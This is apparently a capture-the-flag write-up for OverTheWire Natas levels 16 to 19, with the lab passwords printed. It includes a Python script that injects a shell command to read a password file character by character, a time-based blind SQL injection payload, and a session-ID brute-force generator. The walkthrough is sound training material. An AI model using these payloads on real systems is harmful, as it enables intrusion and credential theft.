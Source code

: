 ```yaml
---
title: Wargames - Natas 1-19
published: true
tags: game natas
---
```


## [Level 16 -> Level 17](https://overthewire.org/wargames/natas/natas17.html)

Username: natas16
Lab URL: http://natas16.natas.labs.overthewire.org/

I have updated previwous script to get password from this level:

```
import requests
import string 

username = "natas16"
passwd = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"

valid = "hacker"

characters = list(string.digits) + list(string.ascii_letters)

print('Characters: {}'.format(''.join(characters)))

password = []

for i in range(1, 34):
    for ch in characters:
        url = 'http://natas16.natas.labs.overthewire.org/?needle=$(grep -E ^{}.* /etc/natas_webpass/natas17)hacker'.format(''.join(password)+ch)
        r = requests.get(url, auth=(username, passwd))
                
        if valid not in r.text:
            password.append(ch)
            continue

print('Password: {}'.format(''.join(password)))
```

password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw


## [Level 17 -> Level 18](https://overthewire.org/wargames/natas/natas18.html)

Username: natas17
Lab URL: http://natas17.natas.labs.overthewire.org/

payload: natas18" and if(substring(password,1,1)="x",sleep(5),'A')# -> if true then sleep for 5 seconds

password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

## [Level 18 -> Level 19](https://overthewire.org/wargames/natas/natas19.html)

Username: natas18
Lab URL: http://natas18.natas.labs.overthewire.org/

Brute force admin session id, you can use burp for this or write python script:

![Password](assets/natas/18/password.png)

password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

## [Level 19 -> Level 20](https://overthewire.org/wargames/natas/natas20.html)

Username: natas19
Lab URL: http://natas19.natas.labs.overthewire.org/

Firsty I decode session id:

![Session id](assets/natas/19/session_id_decode.png)

So now session id is number with additioan passphrase, I has generate data to brute force it, use following script to get data:

```
for i in range(0, 2000):
    payload = '{}-admin'.format(i)
    print(payload.encode('utf-8').hex())
```

After all prepare attack in burp:

![Password](assets/natas/19/password.png)

password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF